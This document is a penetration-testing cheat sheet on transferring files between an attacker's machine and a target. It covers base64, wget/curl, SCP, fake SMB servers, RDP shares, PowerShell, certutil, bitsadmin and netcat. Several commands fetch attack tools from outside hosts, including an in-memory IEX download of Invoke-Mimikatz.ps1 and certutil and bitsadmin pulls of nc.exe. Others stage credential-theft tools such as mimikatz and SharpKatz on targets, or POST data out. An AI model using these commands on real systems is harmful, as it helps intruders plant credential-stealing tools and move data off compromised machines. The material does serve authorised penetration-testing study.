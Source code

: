 # File Transfers

## **Introduction**

> There are many different methods to transfers files from a target machine to the attackers machine and vice versa. The following notes are a useful reference to help you achieve this task.

***

## **Basic Methods**

| Command                                                                                          | Description                                                                  |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------- |
| `cat filename \| base64 -w 0; echo` followed by `echo 'encoding-result' \| base64 -d`            | Encode and decode a file via base64 to transfer its content on local machine |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget                                                   |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL                                                   |

***

## **Using SSH Secure Copy (SCP)**

| Command                                                         | Description               |
| --------------------------------------------------------------- | ------------------------- |
| `scp C:\Temp\bloodhound.zip user@target-ip:/tmp/bloodhound.zip` | Upload a file using SCP   |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`        | Download a file using SCP |

***

## **Using a fake SMB Server**

| Command                                                                                  | Description                                                             |
| ---------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| `sudo impacket-smbserver sharename -smb2support /tmp/smbshare`                           | Create an SMB Server with anonymous access                              |
| `copy \\server-ip\share\nc.exe`                                                          | Copy file to previous SMB Server when anonymous access is available     |
| `sudo impacket-smbserver sharename -smb2support /tmp/smbshare -user test -password test` | Create an SMB Server hosting a share named "sharename" with credentials |
| `net use n: \\server-ip\sharename /user:test test`                                       | Copy file to previous SMB Server when anonymous access is NOT available |

***

## **Using RDP Shares and Clipboard**

* Create an SMB share containing the Kali user's home drive:\
  `xfreerdp /v:ip /u:user /p:password +home-drive`
* Connect to a FreeRDP server with a shared directory:\
  `xfreerdp /v:ip_address /u:username /p:password /drive:path/to/directory,share_name`
* Use RDP clipboard redirection:\
  `xfreerdp /v:ip_address /u:username /p:password +clipboard`

***

## **Windows File Transfers**

* Download a file with PowerShell:\
  `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
* Execute a file in memory using PowerShell:\
  `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
* Upload a file with PowerShell:\
  `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
* Download a file using Bitsadmin:\
  `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
* Download a file using Certutil:\
  `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
* Download a file using PHP\
  `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
* Invoke-WebRequest using a Chrome User Agent:\
  `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`

***

## **File Transfers with Netcat**

**Case 1 - Using nc to Upload from attacker to target:**

1. From the target machine: `nc -l -p 8000 > SharpKatz.exe`
2. From attacker machine: `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

**Case 2 - Using ncat to Upload from attacker to target:**

1. From the target machine: `ncat -l -p 8000 --recv-only > SharpKatz.exe`
2. From attacker machine: `ncat --send-only target-ip 8000 < SharpKatz.exe`
